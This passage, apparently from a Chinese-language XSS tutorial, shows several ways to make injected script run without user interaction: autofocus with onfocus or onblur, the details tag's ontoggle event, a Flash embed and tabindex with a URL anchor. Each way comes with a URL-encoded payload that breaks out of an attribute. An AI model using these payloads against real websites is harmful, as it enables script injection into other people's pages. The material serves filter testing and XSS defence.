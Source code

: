 2. onfocus与autofocus
```txt
对于<input>等标签来说,onfocus事件使他们在获得焦点时
而autofocus则会让他们自动获得焦点
因此,很容易利用这个构造出如下的payload,使他们自动获得焦点并触发事件执行js
1"%20autofocus%20onfocus=alert(1)//
完整的html标签是这样的
<input value="1" autofocus onfocus=alert(1)// >
```

3. onblur与autofocus
```txt
onblur是标签失去焦点时引发的事件,那么你可能就会问了
这和我无需交互的payload有什么关系呢
很简单,我们来看看怎么样让标签'自动'失去焦点
(1)在稍早版本的chrome中
我们构造如下payload
x=1"><input%20onblur=alert(1)%20autofocus><input%20autofocus><input%20autofocus>
有好几个标签来'竞争' autofocus的焦点,那么 只要我们的第一个带有onblur事件的input,在获得焦点后,又因为竞争而
失去焦点的话,就可以触发这个payload了
(2)在最新版本中
由于上一个payload已经无法正常工作了,但是我们仍然能够通过
x=1"><input%20onblur=alert(1)%20autofocus>
来构造一个需要较少交互的xss向量
用户只要随意点击窗口里的任意一个地方就会触发我们的payload
但是非常多其他标签似乎无法触发onfocus,更不要说autofocus了
```

4. <details>标签的ontoggle事件
```txt
如果大部分常见事件都被过滤掉了,我们仍然有办法来构造一个无需交互的xss向量
这就是<details>标签的ontoggle属性,它会在自身的open属性不为空时触发
构造如下payload
x=1"><details%20open%20ontoggle="alert(1)">
在chrome最新版本中有效
```

5. flash-xss的自动触发
```txt
没测试！！！
在之前的chrome auditor bypass中,它似乎非常鸡肋
但是在存储型xss和其他浏览器的场景下,用它可以构造非常有效的攻击向量
payload构造如下
x=1"><embed+type="application/x-shockwaveflash"+
allowscriptaccess=always+src=https://www.math1as.com/3.">
```

6. 任意标签的自动触发
```txt
那么如何实现任意标签的自动触发这一目标呢
这里只简单的讲一个技巧
可以用任意脚本构造出无需交互的payload
如我们所知,有很大一部分标签是"不响应"onfocus事件的
你用鼠标移动上去,他没有任何的反应
但事实上,真的如此么?
我们试着给它添加一个tabindex属性
然后为它设置id=1
最后用location.hash来定位到id=1的锚点,就可以让他获得焦点
这里我们用一个不存在于标准里的标签<hero>来测试
构造如下payload
x=1"><hero%20id="1"%20tabindex="0"%20onfocus=alert(1)>#1
对应的标签是
<hero id="1" tabindex="0" onfocus=alert(1)>
于是,我们就获得了一个构造任意标签的自动触发payload的方法。
```
